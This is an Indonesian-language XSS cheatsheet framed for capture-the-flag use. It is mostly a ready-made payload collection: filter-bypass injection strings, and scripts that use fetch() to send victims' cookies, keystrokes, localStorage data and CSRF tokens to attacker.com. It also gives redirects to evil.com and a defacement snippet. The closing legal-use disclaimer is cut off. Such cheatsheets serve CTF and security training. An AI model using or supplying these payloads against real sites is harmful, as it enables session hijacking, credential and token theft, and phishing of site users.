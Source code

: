 # XSS Injection Cheatsheet (CTF)

## 1. Cara Mengetes XSS

- Masukkan payload sederhana ke input/parameter yang dicurigai:
  ```html
  <script>
    alert(1);
  </script>
  ```
- Cek apakah alert muncul atau payload dieksekusi.
- Coba payload di URL, form, cookie, header, atau parameter GET/POST.

## 2. Payload XSS Populer

| Payload Sederhana                     | Keterangan        |
| ------------------------------------- | ----------------- |
| `<script>alert(1)</script>`           | Payload dasar     |
| `<img src=x onerror=alert(1)>`        | Bypass tag filter |
| `<svg/onload=alert(1)>`               | SVG context       |
| `<body onload=alert(1)>`              | Event handler     |
| `<iframe src="javascript:alert(1)">`  | Iframe JS URI     |
| `<math href="javascript:alert(1)">`   | MathML context    |
| `<a href="javascript:alert(1)">X</a>` | Link JS URI       |

## 3. Eksploitasi XSS

### a. Cookie Stealing (Mencuri Cookie)

Payload untuk mengirim cookie korban ke server attacker:

```html
<script>
  fetch("http://attacker.com/?c=" + document.cookie);
</script>
<!-- atau -->
<img src="x" onerror="fetch('http://attacker.com/?c='+document.cookie)" />
```

### b. Keylogger Sederhana

Payload untuk merekam input user dan mengirim ke server attacker:

```html
<input oninput="fetch('http://attacker.com/?k='+this.value)" />
<!-- atau -->
<script>
  document.onkeypress = function (e) {
    fetch("http://attacker.com/?k=" + e.key);
  };
</script>
```

### c. Session Hijacking

Ambil session/cookie korban lalu gunakan untuk login sebagai korban. Payload sama seperti cookie stealing.

### d. Phishing / Redirect

Redirect user ke halaman palsu:

```html
<script>
  location = "http://evil.com";
</script>
<!-- atau -->
<meta http-equiv="refresh" content="0;url=http://evil.com" />
```

### e. Deface Halaman

Mengubah tampilan halaman:

```html
<script>
  document.body.innerHTML = "Hacked by XSS!";
</script>
```

### f. Membaca Data dari DOM/LocalStorage

Payload untuk membaca data sensitif dari DOM/localStorage:

```html
<script>
  fetch("http://attacker.com/?ls=" + localStorage.getItem("flag"));
</script>
```

### g. Mengambil CSRF Token

Jika token CSRF ada di halaman:

```html
<script>
  fetch(
    "http://attacker.com/?csrf=" +
      document.querySelector('input[name="csrf"]').value
  );
</script>
```

## 4. Tips & Informasi Penting

- Coba variasi payload jika satu tidak berhasil (gunakan karakter unik, event handler, tag berbeda).
- Perhatikan filter, encoding, atau sanitasi yang diterapkan aplikasi.
- Cek di semua tempat input: URL, form, cookie, header, dll.
- Gunakan tools seperti Burp Suite, XSS Hunter, atau browser devtools untuk testing.
- Untuk bypass CSP, cari endpoint yang tidak menerapkan CSP ketat.
- Pada CTF, flag kadang muncul di cookie, localStorage, atau DOM.

> **Catatan:** Gunakan payload hanya di lingkungan legal (CTF/lab). Jangan eksploitasi sistem
